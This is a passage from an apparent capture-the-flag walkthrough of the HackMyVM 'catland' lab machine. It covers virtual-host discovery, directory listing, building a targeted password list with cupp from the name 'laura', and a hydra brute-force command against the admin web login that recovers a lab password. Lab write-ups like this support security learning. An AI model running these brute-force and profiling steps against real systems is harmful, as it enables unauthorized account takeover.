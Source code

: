`ffuf` revealed the virtual host `admin.catland.hmv`. I added `admin.catland.hmv` to my `/etc/hosts` file.

Next, I explored the `/images` directory, which had directory listing enabled:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ curl http://catland.hmv/images/
# ... (truncated HTML output) ...
<tr><td valign="top"><img src="/icons/image2.gif" alt="[IMG]"></td><td><a href="laura-with-cat.jpeg">laura-with-cat.jpeg</a></td><td align="right">2023-01-01 08:43  </td><td align="right">6.9K</td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/image2.gif" alt="[IMG]"></td><td><a href="sushi-cat.jpeg">sushi-cat.jpeg</a></td><td align="right">2023-01-01 08:43  </td><td align="right">5.8K</td><td>&nbsp;</td></tr>
# ... (truncated output) ...
```

The image `laura-with-cat.jpeg` suggested "laura" might be a username.

### 3. Credential Generation and Brute-forcing (Web Panel)

I used `cupp` (Common User Passwords Profiler) to generate a custom wordlist based on the potential username "laura" and the theme "cat".

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ python3 cupp.py -i
# ... (cupp interactive prompts) ...
> First Name: laura
# ... (other prompts) ...
> Pet's name: cat
> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: cat
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y
# ... (truncated output) ...
[+] Saving dictionary to laura.txt, counting 5656 words.
```

This generated `laura.txt`. I then used `hydra` to brute-force the login form on `admin.catland.hmv` using `laura` as the username and the generated wordlist.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/catland/cupp]
└─$ hydra -l laura -P laura.txt admin.catland.hmv http-post-form "/:username=^USER^&password=^PASS^:Invalid" -I
# ... (truncated output) ...
[80][http-post-form] host: admin.catland.hmv   login: laura   password: Laura_2008
1 of 1 target successfully completed, 1 valid password found
```

The brute-force attack was successful, revealing the credentials `laura:Laura_2008` for the web panel.
